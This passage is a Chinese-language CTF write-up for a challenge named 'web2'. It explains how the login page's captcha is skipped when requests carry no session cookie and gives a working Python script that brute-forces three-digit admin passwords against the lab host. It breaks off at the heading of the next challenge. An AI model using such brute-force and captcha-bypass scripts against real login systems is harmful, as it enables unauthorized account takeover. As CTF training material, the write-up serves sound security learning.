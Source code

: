 ### web2

![](https://www.zhaoj.in/wp-content/uploads/2019/05/1558352699b2a4546cfdc4319b5545b55c34c6de73-1024x366.png)

靶机：[http://39.100.83.188:8002/](http://39.100.83.188:8002/)

知识点：暴力破解，验证码绕过

步骤：

1.打开靶机，发现是个登录页面。

![](https://www.zhaoj.in/wp-content/uploads/2019/05/1558352893c002d9de5d211ae54984c5373708af36.png)

2.测试登录，抓个包试试。

![](https://www.zhaoj.in/wp-content/uploads/2019/05/15583529221e9d788abf29c6ae43d4a7ee8fdc25bb.png)

3.OK，既然提示了三位数字，那么就来暴力破解吧。

还观察到一个有意思的现象，要是不访问 /vcode.php，不产生 session，不带上 cookie 访问的话，那么验证码就形同虚设了，可以绕过了。

所以 Python 脚本如下：
```
import requests

# session = requests.Session()

for i in range(1, 999):
    password = str(i)
    if len(password) == 1:
        password = '00' + password
    elif len(password) == 2:
        password = '0' + password

    r = requests.post("http://39.100.83.188:8002/login.php", data = {'username': 'admin', 'pwd': password, 'Login': 'submit'})
    r.encoding = 'unicode'
    print(password + ' ' + r.text)
    if r.text != '密码错误':
        break
```

4.跑一下~

![](https://www.zhaoj.in/wp-content/uploads/2019/05/155835318042e0b62b4714b2ff6d8a47655b794e42-1024x421.png)

5.Flag 到手~

### web3

![](https://www.zhaoj.in/wp-content/uploads/2019/05/155835639054e1050b4489c3b5db8ff7ffe3655a1e-1024x387.png)

靶机：[http://39.100.83.188:8065/](http://39.100.83.188:8065/)
